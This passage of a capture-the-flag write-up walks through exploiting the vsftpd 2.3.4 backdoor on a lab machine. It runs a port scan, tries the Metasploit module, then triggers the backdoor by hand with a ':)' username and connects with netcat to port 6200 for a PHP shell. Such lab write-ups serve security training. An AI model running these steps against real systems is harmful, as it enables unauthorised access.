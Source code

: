 Nothing.

Let’s do more scan:

```bash
rustscan -a 10.10.10.131 --ulimit 5000
```

No additional ports.

Searching up the ftp version vsftpd 2.3.4, we find that there is a backdoor will open on port 6200 if :) is supplied as the username.

Let’s use metasploit:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.10.10.131
```

Does not work.

Let’s do this manually, first connect to ftp:

```bash
ftp 10.10.10.131
#username :)
```

![image.png](lacasadepapel%20279068bbc57d8058a14ef9ab005479e3/image%202.png)

Now another terminal, we use nc to connect to port 6200:

```bash
nc 10.10.10.131 6200
```

![image.png](lacasadepapel%20279068bbc57d8058a14ef9ab005479e3/image%203.png)

We get a Psy Shell

PsySH (often typed as "psyshell") is an interactive REPL (Read-Eval-Print Loop) shell for PHP, allowing you to execute code, inspect variables, and debug interactively.

![image.png](lacasadepapel%20279068bbc57d8058a14ef9ab005479e3/image%204.png)

We attempt to use edit to try and write code:

```bash
edit

PHP Warning:  proc_open() has been disabled for security reasons in phar:///usr/bin/psysh/src/Command/EditCommand.php on line 162
PHP Warning:  proc_close() expects parameter 1 to be resource, null given in phar:///usr/bin/psysh/src/Command/EditCommand.php on line 163
```

Disabled.

![image.png](lacasadepapel%20279068bbc57d8058a14ef9ab005479e3/image%205.png)
